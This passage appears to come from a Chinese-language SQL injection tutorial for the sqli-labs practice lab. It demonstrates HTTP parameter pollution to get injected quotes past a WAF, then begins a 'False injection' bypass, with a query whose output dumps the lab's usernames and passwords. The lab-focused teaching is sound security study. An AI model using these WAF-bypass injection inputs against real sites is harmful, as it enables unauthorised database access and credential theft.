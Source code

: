 ```sql
http://192.168.18.21/sqli-labs-master/Less-29/login.php?id=1'&id=2&id=3

页面显示注入被拦截。

http://192.168.18.21/sqli-labs-master/Less-29/login.php?id=1&id=2'&id=3

页面无变化。

http://192.168.18.21/sqli-labs-master/Less-29/login.php?id=1&id=2&id=3'

页面报数据库错误。

说明第一个参数被waf拦截，中间的参数无影响，最后一个参数被带到数据库中执行。

本关存在php的一个hpp漏洞，当同时传递多个参数时，不同的服务器可能会取得不同的参数值。
```

可以通过http参数污染绕过waf参数拦截：

如果是$_get(id)获取id，则可以在参数后添加参数，对最后的参数进行注入，即可绕过waf。

也就是说waf只检查第一个参数，而应用程序取最后一个参数代入数据库执行。

### False 注入绕过

#### 注入原理

前面我们学过的注入都是基于1=1这样比较的普通注入，下面来说一说 False 注入，利用 False 我们可以绕过一些特定的 WAF 以及一些未来不确定的因素。

首先我们来看一看下面这个sql查询语句：

```sql
select * from users where username = 0;
```

```sql
mysql> select * from users where username = 0;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | jiamu      |
+----+----------+------------+
13 rows in set, 13 warnings (0.00 sec)
```
